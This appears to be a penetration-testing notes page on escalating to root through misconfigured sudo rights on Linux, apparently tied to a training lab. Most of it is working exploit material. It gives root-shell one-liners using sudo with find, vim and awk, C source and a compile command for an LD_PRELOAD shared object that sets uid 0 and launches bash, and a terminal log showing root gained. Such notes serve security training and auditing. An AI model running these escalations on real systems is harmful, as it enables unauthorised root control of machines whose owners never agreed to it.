 # Exploit sudo misconfigurations

Become root on Linux via sudo exploit:

1. Find which commands current user is allowed to use (`sudo -l`)
2. Exploit the parameters of a command that is allowed to be executed with root permissions

```text
sudo find /etc/passwd -exec /bin/sh \; 
sudo vim -c '!sh' 
sudo awk 'BEGIN {system(“/bin/sh”)}'
```

Or use other commands that are allowed to be executed with `root` permissions to invoke a shell

## Example: find

### LD_PRELOAD

`LD_PRELOAD` allows program to [use/load shared libraries](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/). 
If the `env_keep` option is enabled we can generate a shared library which will be loaded and executed before the program is run. The `LD_PRELOAD` option will be ignored if the real user ID is different from the effective user ID.

1. Check for `env_keep+=LD_PRELOAD` (using `sudo -l`)
2. Write a simple C code compiled as a share object (`.so` extension) file

```text
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Save as shell.c and compile:

    gcc -fPIC -shared -o shell.so shell.c -nostartfiles

Use this shared object file when launching any program the user can run with sudo.

3. Run the program with sudo rights and the `LD_PRELOAD` option pointing to the `.so` file

```text
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

This will result in a shell spawn with root privileges.

### Another find

Another [find in GTFObins](https://gtfobins.github.io/gtfobins/find/) for escalating privileges with `find`:

```text
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-1029-aws x86_64)
...
$ sudo -l
Matching Defaults entries for karen on ip-10-10-0-32:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-0-32:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Notes

The `sudo` command, by default, allows for running a program with root privileges. System administrators sometimes give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap but would not be cleared for full root access. The system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the `sudo -l` command.

Use [GTFObins](https://gtfobins.github.io/) for gathering information on how any program, on which a user may have sudo rights, can be used. 
